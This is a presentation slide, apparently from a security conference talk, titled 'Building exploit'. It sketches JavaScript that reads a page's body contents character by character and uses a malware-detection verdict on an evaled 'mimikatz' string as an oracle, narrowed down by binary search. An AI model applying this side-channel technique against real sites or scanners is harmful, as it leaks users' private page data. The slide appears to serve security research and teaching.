

# Building exploit
more faster!
Math.min is also available, do binary search

$c < [input]: detected
$c > [input]: not detected
then do binary search!
var body = document.body.innerHTML;
var mal = "mimikatz...dis";
var n = body[$idx].charCodeAt(0);
mal = mal + {$c: 'k'}[Math.min($c, n)];
eval(mal);